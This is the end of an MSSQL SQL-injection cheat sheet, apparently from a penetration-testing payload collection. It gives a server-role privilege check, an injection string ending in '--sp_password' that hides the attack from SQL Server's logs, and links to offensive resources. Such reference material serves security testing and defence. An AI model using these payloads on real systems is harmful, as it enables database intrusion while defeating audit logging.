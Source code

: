 Check if current user is a member of the specified server role.

\`\`\`sql
-- possible roles: sysadmin, serveradmin, dbcreator, setupadmin, bulkadmin, securityadmin, diskadmin, public, processadmin
SELECT is_srvrolemember('sysadmin');
\`\`\`

## MSSQL OPSEC

Use `SP_PASSWORD` in a query to hide from the logs like : `' AND 1=1--sp_password`

\`\`\`sql
-- 'sp_password' was found in the text of this event.
-- The text has been replaced with this comment for security reasons.
\`\`\`

## References

* [Pentest Monkey - mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [Error Based - SQL Injection ](https://github.com/incredibleindishell/exploit-code-by-me/blob/master/MSSQL%20Error-Based%20SQL%20Injection%20Order%20by%20clause/Error%20based%20SQL%20Injection%20in%20“Order%20By”%20clause%20(MSSQL).pdf)
* [MSSQL Trusted Links - HackTricks.xyz](https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links)
* [SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server! - Antti Rantasaari - June 6th, 2013](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/)
* [DAFT: Database Audit Framework & Toolkit - NetSPI](https://github.com/NetSPI/DAFT)
* [SQL Server UNC Path Injection Cheatsheet - nullbind](https://gist.github.com/nullbind/7dfca2a6309a4209b5aeef181b676c6e)
* [Full MSSQL Injection PWNage - ZeQ3uL && JabAv0C - 28 January 2009](https://www.exploit-db.com/papers/12975)
* [Microsoft - sys.fn_my_permissions (Transact-SQL)](https://docs.microsoft.com/en-us/sql/relational-databases/system-functions/sys-fn-my-permissions-transact-sql?view=sql-server-ver15)
* [Microsoft - IS_SRVROLEMEMBER (Transact-SQL)](https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?view=sql-server-ver15)
* [AWS WAF Clients Left Vulnerable to SQL Injection Due to Unorthodox MSSQL Design Choice - Marc Olivier Bergeron - Jun 21, 2023](https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/)
